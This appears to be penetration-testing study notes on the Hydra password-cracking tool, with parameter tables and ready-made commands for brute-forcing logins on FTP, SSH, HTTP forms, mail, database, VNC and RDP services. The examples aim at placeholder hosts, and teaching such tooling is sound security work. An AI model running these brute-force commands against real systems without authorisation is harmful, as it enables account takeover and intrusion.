 ```shell-session
hydra -h
```
```shell-session
sudo apt-get -y install hydra 
```

```shell-session
hydra [login_options] [password_options] [attack_options] [service_options]
```

|Parameter|Explanation|Usage Example|
|---|---|---|
|`-l LOGIN` or `-L FILE`|Login options: Specify either a single username (`-l`) or a file containing a list of usernames (`-L`).|`hydra -l admin ...` or `hydra -L usernames.txt ...`|
|`-p PASS` or `-P FILE`|Password options: Provide either a single password (`-p`) or a file containing a list of passwords (`-P`).|`hydra -p password123 ...` or `hydra -P passwords.txt ...`|
|`-t TASKS`|Tasks: Define the number of parallel tasks (threads) to run, potentially speeding up the attack.|`hydra -t 4 ...`|
|`-f`|Fast mode: Stop the attack after the first successful login is found.|`hydra -f ...`|
|`-s PORT`|Port: Specify a non-default port for the target service.|`hydra -s 2222 ...`|
|`-v` or `-V`|Verbose output: Display detailed information about the attack's progress, including attempts and results.|`hydra -v ...` or `hydra -V ...` (for even more verbosity)|
|`service://server`|Target: Specify the service (e.g., `ssh`, `http`, `ftp`) and the target server's address or hostname.|`hydra ssh://192.168.1.100`|
|`/OPT`|Service-specific options: Provide any additional options required by the target service.|`hydra http-get://example.com/login.php -m "POST:user=^USER^&pass=^PASS^"` (for HTTP form-based authentication)|


|Hydra Service|Service/Protocol|Description|Example Command|
|---|---|---|---|
|ftp|File Transfer Protocol (FTP)|Used to brute-force login credentials for FTP services, commonly used to transfer files over a network.|`hydra -l admin -P /path/to/password_list.txt ftp://192.168.1.100`|
|ssh|Secure Shell (SSH)|Targets SSH services to brute-force credentials, commonly used for secure remote login to systems.|`hydra -l root -P /path/to/password_list.txt ssh://192.168.1.100`|
|http-get/post|HTTP Web Services|Used to brute-force login credentials for HTTP web login forms using either GET or POST requests.|`hydra -l admin -P /path/to/password_list.txt http-post-form "/login.php:user=^USER^&pass=^PASS^:F=incorrect"`|
|smtp|Simple Mail Transfer Protocol|Attacks email servers by brute-forcing login credentials for SMTP, commonly used to send emails.|`hydra -l admin -P /path/to/password_list.txt smtp://mail.server.com`|
|pop3|Post Office Protocol (POP3)|Targets email retrieval services to brute-force credentials for POP3 login.|`hydra -l user@example.com -P /path/to/password_list.txt pop3://mail.server.com`|
|imap|Internet Message Access Protocol|Used to brute-force credentials for IMAP services, which allow users to access their email remotely.|`hydra -l user@example.com -P /path/to/password_list.txt imap://mail.server.com`|
|mysql|MySQL Database|Attempts to brute-force login credentials for MySQL databases.|`hydra -l root -P /path/to/password_list.txt mysql://192.168.1.100`|
|mssql|Microsoft SQL Server|Targets Microsoft SQL servers to brute-force database login credentials.|`hydra -l sa -P /path/to/password_list.txt mssql://192.168.1.100`|
|vnc|Virtual Network Computing (VNC)|Brute-forces VNC services, used for remote desktop access.|`hydra -P /path/to/password_list.txt vnc://192.168.1.100`|
|rdp|Remote Desktop Protocol (RDP)|Targets Microsoft RDP services for remote login brute-forcing.|`hydra -l admin -P /path/to/password_list.txt rdp://192.168.1.100`|

### Brute-Forcing HTTP Authentication

```shell-session

 hydra -L usernames.txt -P passwords.txt www.example.com http-get
```

### Targeting Multiple SSH Servers

```shell-session
hydra -l root -p toor -M targets.txt ssh
```

### Testing FTP Credentials on a Non-Standard Port

```shell-session
hydra -L usernames.txt -P passwords.txt -s 2121 -V ftp.example.com ftp
```

### Brute-Forcing a Web Login Form

```shell-session

hydra -l admin -P passwords.txt www.example.com http-post-form "/login:user=^USER^&pass=^PASS^:S=302"
```

S=302 -> success code 302

### Advanced RDP Brute-Forcing

```shell-session
hydra -l administrator -x 6:8:abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 192.168.1.100 rdp
```

